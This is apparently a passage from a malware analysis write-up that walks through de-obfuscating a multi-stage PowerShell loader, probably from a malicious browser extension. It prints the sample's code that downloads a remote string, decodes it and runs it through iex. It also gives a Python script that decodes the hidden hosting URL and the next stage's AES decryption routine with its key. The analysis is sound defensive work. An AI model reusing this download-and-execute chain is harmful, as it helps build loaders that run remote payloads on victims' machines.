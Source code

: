 ```
$cSLnS = [System.Text.Encoding]::ASCII.GetString($xV7Um);
$zGfxA=$nHpjI.DownloadString($cSLnS);
$F6lPa = $zGfxA.Replace("!", "l").Replace("*", "d").Replace("`"", "T").Replace("'", "H").Replace(";", "F") // changing a lot of chareters of a base64
$YgKk7 = [Convert]::FromBase64String($F6lPa)
$SlLVN = [Convert]::FromBase64String([System.Text.Encoding]::ASCII.GetString($YgKk7))
[System.Text.Encoding]::ASCII.GetString($SlLVN) | iex
```

Using Python, lets decoded the domain hosting the next script:

```
import base64

# Original obfuscated string 
uPlik = "DhsMWR4bDQFFIRMfGQc5RVwbD0UMXQMeGgg4EEUkPSceLAMoWl8TBSo@ADIBM1IEGlwQWF0TXQcYKjlf"

# Replacing '@' with 'a'
LXxNl = uPlik.replace("@", "a")

# Base64 decode and XOR with 106
decoded_bytes = base64.b64decode(LXxNl)
xor_106 = bytes([b ^ 106 for b in decoded_bytes])

# Convert to string and replace '@' with 'a' again
ascii_str = xor_106.decode('ascii').replace("@", "a")

# Base64 decode again
second_base64 = base64.b64decode(ascii_str)

# XOR with cyclic key
key = [30, 211, 131, 198, 219]
key_len = len(key)

final_bytes = bytes([b ^ key[i % key_len] for i, b in enumerate(second_base64)])

# Convert to string 
final_url = final_bytes.decode('ascii')

print("Decoded URL:", final_url)

```
And we have the URL: 
<img src="/static/Extension/Pasted image 20250524131615.png" alt="drawing" width="1000"/>

This URL contained a massive Base64 string that, when decoded, revealed another decoding and decryption routine using AES.

<img src="/static/Extension/Pasted image 20250524135528.png" alt="drawing" width="1000"/>

```
$AUJKY = "HUGE_BASE64"
$vclPn = [Convert]::FromBase64String($AUJKY)
$xoL70 = [Convert]::FromBase64String([System.Text.Encoding]::ASCII.GetString($vclPn))
$RhAUo = [System.Text.Encoding]::ASCII.GetString($xoL70).Replace("%", "d").Replace("`$", "a").Replace("!", "b").Replace("@", "B")
$skiUV = [Convert]::FromBase64String($RhAUo)
$kqB9Mm=[Convert]::FromBase64String('JgtrU4CqeEdQRIkU06d+iw==');
$TyZDj=[Convert]::FromBase64String('07vOZJ8e04PG22qE6cVEDciVdTaI6E1J8NwudfkswXA=');
$HjBUi = New-Object System.Security.Cryptography.AesManaged
$HjBUi.Key = $TyZDj
$HjBUi.IV = $kqB9Mm
$HjBUi.Mode = [System.Security.Cryptography.CipherMode]::CBC
$HjBUi.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$HOfuc = $HjBUi.CreateDecryptor();
```